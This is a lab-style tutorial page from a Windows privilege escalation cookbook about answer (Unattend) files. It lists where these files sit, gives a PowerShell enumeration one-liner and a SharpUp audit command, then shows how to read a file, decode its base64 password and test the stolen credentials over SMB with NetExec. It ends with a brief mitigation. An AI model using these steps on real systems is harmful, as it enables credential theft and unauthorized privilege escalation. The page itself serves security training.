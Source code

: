 # Answer files (Unattend files)

[Back to Main](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook?tab=readme-ov-file#vulnerabilities)

## Table of Contents

- [Answer files (Unattend files)](#answer-files-unattend-files)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup) 
  - [Enumeration](#enumeration)
    - [Manual Enumeration](#manual-enumeration)
    - [Tool Enumeration](#tool-enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Unattend files, also commonly referred to as "Answer files" in the context of Windows installations, are XML-based configuration files aimed at optimizing the installation process. These files contain an extensive range of settings and configurations, empowering unattended or automated installation procedures.

An adversary could potentially exploit Unattend files by reading their contents to obtain encoded passwords and gain unauthorized access to privileged accounts or sensitive resources.

The following locations commonly contain answer files that may include local administrator credentials:

- `C:\Windows\Panther\unattend.xml`
- `C:\Windows\Panther\Unattend\unattend.xml`
- `C:\Windows\System32\Sysprep\unattend.xml`
- `C:\Windows\System32\Sysprep\sysprep.xml`
- `C:\Windows\System32\Sysprep\Panther\unattend.xml`
- `C:\Windows\sysprep.inf`
- `C:\Windows\unattend.xml`
- `C:\unattend.xml`
- `C:\sysprep.inf`

## Lab Setup

### Manual Lab Setup

:warning: <b>If you are using Windows 10 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

1) Open a PowerShell with local Administrator privileges and run the following command to create a new folder:

```
mkdir "C:\Windows\Panther\Unattend\"
```

2) Download the file [unattend.xml](/Lab-Setup-Source-Code/unattend.xml) to the 'C:\Windows\Panther\Unattend\' directory.

Outcome:

![Answer-Files-Manual-Lab-Set-Up](/Pictures/Answer-Files-Manual-Lab-Set-Up.png)

### PowerShell Script Lab Setup

:warning: <b>If you are using Windows 10/11 to proceed with this scenario, the local Administrator account needs to be enabled. I have created a PowerShell script named [EnableLocalAdmin.ps1](/Lab-Setup-Scripts/EnableLocalAdmin.ps1), designed to enable the local Administrator account and set a password. Please run this script with elevated privileges.</b>

To set up the lab with the 'Answer files (Unattend files)' scenario use the custom PowerShell script named [AnswerFiles.ps1](/Lab-Setup-Scripts/AnswerFiles.ps1).

Open a PowerShelll with local Administrator privileges and run the script:

```
.\AnswerFiles.ps1
```

Outcome:

![Answer-Files-Script-Lab-Set-Up](/Pictures/Answer-Files-Script-Lab-Set-Up.png)

## Enumeration

### Manual Enumeration

To perform manual enumeration and identify if there are any answer files that may contain useful credentials, you can use the following PowerShell command:

```
Write-Host `n;foreach ($file in @('C:\Windows\Panther\unattend.xml', 'C:\Windows\Panther\Unattend\unattend.xml', 'C:\Windows\System32\Sysprep\unattend.xml', 'C:\Windows\System32\Sysprep\sysprep.xml', 'C:\Windows\System32\Sysprep\Panther\unattend.xml', 'C:\Windows\sysprep.inf', 'C:\Windows\unattend.xml', 'C:\unattend.xml', 'C:\sysprep.inf')) { if (Test-Path $file) { Write-Host "[+] $file" } }; Write-Host `n
```

Outcome:

![Answer-Files-Manual-Enumeration](/Pictures/Answer-Files-Manual-Enumeration.png)

### Tool Enumeration

To run the SharpUp tool and perform an enumeration of the `Answer files (Unattend files)`, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit UnattendedInstallFiles
```

Outcome:

![Answer-Files-Tool-Enumeration](/Pictures/Answer-Files-Tool-Enumeration.png)

## Exploitation

1) Read the content of the found answer file:

```
type  C:\Windows\Panther\Unattend\Unattend.xml
```

Outcome:

![Answer-Files-Exploitation](/Pictures/Answer-Files-Exploitation.png)

2) To decode the base64 password field, use the following command from your Linux attacking machine:

```
echo "<base64 string>" | base64 -d
```

Outcome:

![Answer-Files-Exploitation-2](/Pictures/Answer-Files-Exploitation-2.png)

3) Obtaining the credentials can be accomplished through several methods, which you can then utilize to elevate privileges if these credentials are valid.

Some of the common services are:

- Remote Desktop Protocol (RDP)
- Windows Remote Management (WinRM) (If it is enabled)
- Server Message Block (SMB)
- Windows Management Instrumentation (WMI)
- Virtual Network Computing (VNC) (If it is enabled)

To identify a valid authentication method, you can use [NetExec](https://github.com/Pennyw0rth/NetExec).

This is an example of using the SMB service to authenticate against the workstation and execute a command:

```
nxc smb <ip> -u <username> -p '<password>' -x whoami
```

Outcome:

![Credentials-Exploitation](/Pictures/Hardcoded-Credentials-Exploitation.png)

## Mitigation

Please ensure that password fields utilize strong encryption formats, or consider removing them if they are not necessary for the use of these files.

## References

- [Answer files (unattend.xml) Microsoft](https://learn.microsoft.com/en-us/windows-hardware/manufacture/desktop/update-windows-settings-and-scripts-create-your-own-answer-file-sxs?view=windows-11)
- [Unattend-Files by Bordergate](https://www.bordergate.co.uk/windows-privilege-escalation/#Unattend-Files)
- [Answer Files Overview Microsoft](https://learn.microsoft.com/en-us/windows-hardware/customize/desktop/wsim/answer-files-overview)
